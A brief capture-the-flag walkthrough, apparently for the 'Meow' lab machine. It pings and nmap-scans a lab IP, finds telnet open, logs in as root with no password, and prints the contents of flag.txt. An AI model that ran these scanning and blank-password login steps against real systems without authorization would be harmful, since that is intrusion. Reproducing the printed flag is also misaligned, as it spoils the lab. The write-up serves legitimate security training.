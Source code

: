 ![Meow.png](/assets/Tier-0/Meow/meow.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.148.116
```



2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.148.116 
```

**Output**
```bash
PORT   STATE SERVICE REASON
23/tcp open  telnet  syn-ack ttl 63
```

3. Connect with **telnet**
```bash
┌──(root㉿kali)-[/home/kali]
└─| telnet 10.129.148.116
Trying 10.129.148.116...
Connected to 10.129.148.116.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
```
+ In `Meow login: ` write **root**.
+ We do this to access to system without password.


**Output**
```bash
root@Meow:~| ls
flag.txt  snap
```

4. List files of system and read the `flag.txt` file.
```bash
root@Meow:~| cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
```



**By: EsT**